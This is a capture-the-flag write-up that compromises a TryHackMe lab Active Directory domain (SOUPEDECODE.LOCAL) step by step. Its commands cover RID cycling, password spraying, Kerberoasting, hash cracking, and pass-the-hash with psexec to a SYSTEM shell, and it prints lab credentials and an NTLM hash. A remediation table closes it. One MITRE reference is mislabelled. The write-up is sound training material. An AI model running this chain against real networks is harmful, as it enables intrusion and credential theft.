# Soupedecode01 Try hack me - Active Directory Penetration Test Write-up

**Target:** SOUPEDECODE.LOCAL (DC01)  
**Date:** August 2026  
**Author:** blazk  

---

## Executive Summary

This document details the complete compromise of the SOUPEDECODE.LOCAL Active Directory environment, progressing from unauthenticated enumeration to Domain Administrator privileges. The attack chain leverages multiple AD misconfigurations including: null session SMB access, RID cycling for user enumeration, AS-REP roasting attempt, password spraying, Kerberoasting, backup file disclosure containing NTLM hashes, and Pass-the-Hash to achieve SYSTEM access on the Domain Controller.

---

## 1. Reconnaissance & Enumeration

### 1.1 Port Discovery

Initial network reconnaissance to identify open ports and services:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv $IP -oG allPorts
```



**Key Findings:**
- **53/TCP** - DNS
- **88/TCP** - Kerberos
- **135/TCP** - MSRPC
- **139/TCP** - NetBIOS-SSN
- **389/TCP** - LDAP
- **445/TCP** - SMB
- **464/TCP** - Kerberos Change/Set Password
- **593/TCP** - HTTP-RPC
- **636/TCP** - LDAPS
- **3268/TCP** - Global Catalog
- **3269/TCP** - Global Catalog SSL
- **3389/TCP** - RDP
- **9389/TCP** - ADWS
- **49664-49734/TCP** - Dynamic RPC ports

The presence of ports 88, 389, 445, and 3268 confirms an Active Directory Domain Controller.

### 1.2 Service Enumeration & Version Detection

```bash
sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,3389,9389,49664,49667,49676,49734 -sCV $IP -oN targeted
```




**Domain Information Identified:**
- **Domain:** `SOUPEDECODE.LOCAL`
- **DC Hostname:** `DC01.SOUPEDECODE.LOCAL`
- **OS:** Windows Server 2019/2022 (inferred from service versions)

### 1.3 SMB Null Session Enumeration

Unauthenticated (null) SMB session established, allowing share enumeration:

```bash
nxc smb $IP -u '' -p '' --shares
```



**Accessible Shares:**
| Share | Access | Notes |
|-------|--------|-------|
| `ADMIN$` | READ | Remote Admin |
| `C$` | READ | Default share |
| `IPC$` | READ | Inter-process communication |
| `NETLOGON` | READ | Logon scripts |
| `SYSVOL` | READ | Group Policy |
| `Users` | READ | User profiles |
| `backup` | READ | **Critical - contains sensitive data** |

---

## 2. Active Directory User Enumeration via RID Cycling

### 2.1 lookupsid.py - MSRPC RID Enumeration

The `lookupsid.py` Impacket script performs **RID Cycling** against the SAMR (Security Account Manager Remote) interface over MSRPC (port 135/445). This technique iterates through Relative Identifiers (RIDs) to resolve SIDs to usernames, effectively enumerating all domain principals without authentication.

```bash
lookupsid.py 'null'@$IP -no-pass > lookupsid_output.txt
```



**Results:** ~2,000+ domain principals identified (users, groups, computers).

### 2.2 Wordlist Filtering for Targeted Attacks

Raw output filtered to extract only valid user accounts, excluding:
- Machine accounts (ending in `$`)
- Service accounts (`_svc` suffix)
- Well-known RIDs: 500 (Administrator), 501 (Guest), 502 (KRBTGT), 1000+ (standard users)
- High RID ranges typically reserved for system accounts

```bash
grep "SidTypeUser" lookupsid_output.txt \
  | grep -vE '\$|_svc|^500|^501|^502|^1000|^206[3-9]|^207[0-9]|^208[0-9]|^209[0-9]|^21[0-9]{2}' \
  | awk -F'\\\\' '{print $2}' \
  | awk '{print $1}' > users.txt
```



**Result:** Clean user wordlist (~2,000 usernames) for authentication attacks.

---

## 3. Initial Foothold - Password Spraying

### 3.1 AS-REP Roasting Attempt (Failed)

Attempted to identify accounts with `DONT_REQ_PREAUTH` (Kerberos pre-authentication disabled) using `GetNPUsers.py`:

```bash
GetNPUsers.py 'soupedecode.local/' -usersfile users.txt -dc-ip $IP
```



**Result:** All accounts require pre-authentication. No AS-REP hashes obtained.

### 3.2 Username-as-Password Spray Attack

Given the large user list, a password spray using username-as-password was executed (single attempt per user to avoid lockout):

```bash
nxc smb $IP -u users.txt -p users.txt --no-bruteforce
```



**Success:** Valid credentials found for **`ybob317:ybob317`**

> **Note:** The `--no-bruteforce` flag ensures only one authentication attempt per user, preventing account lockout policies from triggering.

---

## 4. Post-Exploitation Enumeration (ybob317)

### 4.1 Share Permissions Enumeration

```bash
nxc smb $IP -u 'ybob317' -p 'ybob317' --shares
```



**Accessible Shares:** `Users`, `SYSVOL`, `NETLOGON`, `IPC$`

### 4.2 User Flag Retrieval

Connected to the `Users` share and retrieved the user flag:

```bash
smbclient -U='ybob317' //$IP/Users
smb: \> get \ybob317\Desktop\user.txt
```

---

## 5. Privilege Escalation - Kerberoasting

### 5.1 Service Principal Name (SPN) Enumeration

Accounts with registered SPNs (Service Principal Names) are vulnerable to **Kerberoasting**. Any authenticated domain user can request a Ticket Granting Service (TGS) ticket for an SPN. The TGS is encrypted with the service account's NTLM hash (derived from its password), enabling offline cracking.

```bash
GetUserSPNs.py 'soupedecode.local/ybob317:ybob317' -request -dc-ip $IP -outputfile hashes.txt
```



**Result:** Multiple service account TGS tickets obtained and saved to `hashes.txt`.

### 5.2 Offline Hash Cracking

Extracted service account usernames from the TGS tickets for correlation as a dicionary named:
`hashes_usernames.txt`

Cracked the Kerberos 5 TGS hash (etype 23 - RC4-HMAC) using John the Ripper with rockyou wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```



**Cracked Password:** `Password123!!`

### 5.3 Password Spray with Cracked Credential

Sprayed the cracked password against all enumerated service accounts:

```bash
nxc smb $IP -u hashes_usernames.txt -p 'Password123!!' --no-bruteforce
```



**Success:** Valid credentials for **`file_svc:Password123!!`**

---

## 6. Lateral Movement & Credential Access

### 6.1 file_svc Share Enumeration

```bash
nxc smb $IP -u 'file_svc' -p 'Password123!!' --shares
```



**Critical Finding:** `file_svc` has **READ** access to the `backup` share.

### 6.2 Backup File Exfiltration

```bash
smbclient -U='file_svc' //$IP/backup
smb: \> get backup_extract.txt
```

**File Contents:** `backup_extract.txt` contains colon-delimited entries with:
- Username
- RID
- LM Hash (empty/disabled)
- **NTLM Hash**

Example format: `username:RID:LM_HASH:NTLM_HASH:::`

### 6.3 NTLM Hash Extraction for Pass-the-Hash

```bash
# Extract usernames (field 1)
cat backup_extract.txt | cut -d ":" -f 1 > backup_users.txt

# Extract NTLM hashes (field 4)
cat backup_extract.txt | cut -d ":" -f 4 > backup_hashes.txt
```

### 6.4 Pass-the-Hash Spray Attack

Used NetExec's `--hashes` / `-H` option for Pass-the-Hash authentication:

```bash
nxc smb $IP -u backup_users.txt -H backup_hashes.txt --no-bruteforce
```



**Success:** Valid NTLM hash for **`FileServer$`** (machine account)
- **Hash:** `e41da7e79a4c76dbd9cf79d1cb325559`

> **Critical Observation:** Machine accounts (`$` suffix) with high privileges are a severe misconfiguration. `FileServer$` has Domain Admin equivalent rights.

---

## 7. Domain Compromise - Pass-the-Hash to SYSTEM

### 7.1 FileServer$ Privilege Verification

```bash
nxc smb $IP -u 'FileServer$' -H e41da7e79a4c76dbd9cf79d1cb325559 --shares
```



**Result:** Full administrative share access (`ADMIN$`, `C$`, etc.) confirming Domain Admin privileges.

### 7.2 Remote Code Execution via PsExec

Impacket's `psexec.py` leverages the ADMIN$ share and Service Control Manager (SCM) over RPC to create a remote service executing a command shell, authenticating via Pass-the-Hash:

```bash
psexec.py 'soupedecode.local/FileServer$@$IP' -hashes :e41da7e79a4c76dbd9cf79d1cb325559
```



**Result:** SYSTEM shell on Domain Controller (DC01).

### 7.3 Root Flag Retrieval



```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 8. Attack Path Summary

```
┌─────────────────────────────────────────────────────────────────────┐
│                    ATTACK CHAIN VISUALIZATION                        │
├─────────────────────────────────────────────────────────────────────┤
│                                                                      │
│  [UNAUTHENTICATED]                                                   │
│       │                                                              │
│       ▼                                                              │
│  Null SMB Session ──► Share Enumeration (backup, Users, etc.)       │
│       │                                                              │
│       ▼                                                              │
│  RID Cycling (lookupsid.py) ──► 2,000+ Usernames                    │
│       │                                                              │
│       ▼                                                              │
│  AS-REP Roasting (GetNPUsers) ──► FAILED (Pre-auth required)        │
│       │                                                              │
│       ▼                                                              │
│  Password Spray (user:user) ──► ybob317:ybob317 ✓                   │
│       │                                                              │
│       ▼                                                              │
│  SMB Enumeration (ybob317) ──► User Flag + Kerberoasting            │
│       │                                                              │
│       ▼                                                              │
│  GetUserSPNs.py ──► TGS Tickets for Service Accounts                │
│       │                                                              │
│       ▼                                                              │
│  John + rockyou ──► Password123!! (file_svc)                        │
│       │                                                              │
│       ▼                                                              │
│  file_svc SMB ──► backup Share READ Access                          │
│       │                                                              │
│       ▼                                                              │
│  backup_extract.txt ──► NTLM Hashes for Multiple Accounts           │
│       │                                                              │
│       ▼                                                              │
│  Pass-the-Hash Spray ──► FileServer$ (e41da7e79a4c76dbd9cf79d1...)  │
│       │                                                              │
│       ▼                                                              │
│  PsExec (PtH) ──► SYSTEM on DC01 ──► Root Flag                      │
│                                                                      │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 9. Vulnerabilities & Misconfigurations Identified

| # | Vulnerability | Impact | Recommendation |
|---|---------------|--------|----------------|
| 1 | **Null SMB Session Enabled** | Anonymous share enumeration | Disable null sessions: `RestrictAnonymous=1` or `2` via GPO |
| 2 | **RID Cycling via SAMR** | Full user enumeration | Restrict SAMR access; disable `lsarpc`/`samr` via firewall/GPO |
| 3 | **Weak Password Policy** | `ybob317:ybob317`, `file_svc:Password123!!` | Enforce complexity, length, block common passwords |
| 4 | **Kerberoastable Service Accounts** | Offline hash cracking | Use Managed Service Accounts (gMSA); enforce 25+ char passwords |
| 5 | **Backup Share with NTLM Hashes** | Credential theft | Never store credentials in backup shares; encrypt backups |
| 6 | **Machine Account with DA Privileges** | Full domain compromise | Principle of least privilege; Tiered Administration model |
| 7 | **No Account Lockout / Detection** | Unchecked password spraying | Configure lockout threshold; enable Kerberos/NTLM logging (Event 4625, 4771) |

---

## 10. Tools & References

| Tool | Purpose |
|------|---------|
| `nmap` | Port/service discovery |
| `netexec` (nxc) | SMB/LDAP enumeration, spraying, PtH |
| `lookupsid.py` (Impacket) | RID Cycling / SAMR enumeration |
| `GetNPUsers.py` (Impacket) | AS-REP Roasting |
| `GetUserSPNs.py` (Impacket) | Kerberoasting (TGS request) |
| `john` | Offline hash cracking |
| `smbclient` | SMB file operations |
| `psexec.py` (Impacket) | Pass-the-Hash RCE via SCM |

**References:**
- [MITRE ATT&CK: T1580.003 - Cloud Infrastructure Discovery](https://attack.mitre.org/techniques/T1580/003/)
- [MITRE ATT&CK: T1208 - Kerberoasting](https://attack.mitre.org/techniques/T1208/)
- [MITRE ATT&CK: T1558.004 - AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/)
- [MITRE ATT&CK: T1550.002 - Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [Impacket Documentation](https://github.com/fortra/impacket)

---

## 11. Flags

| Flag | Value |
|------|-------|
| **User Flag** | `user.txt` retrieved from `\\Users\ybob317\Desktop\` |
| **Root Flag** | `root.txt` retrieved from `C:\Users\Administrator\Desktop\` |

---

*Write-up completed. All techniques demonstrated in a controlled, authorized environment.*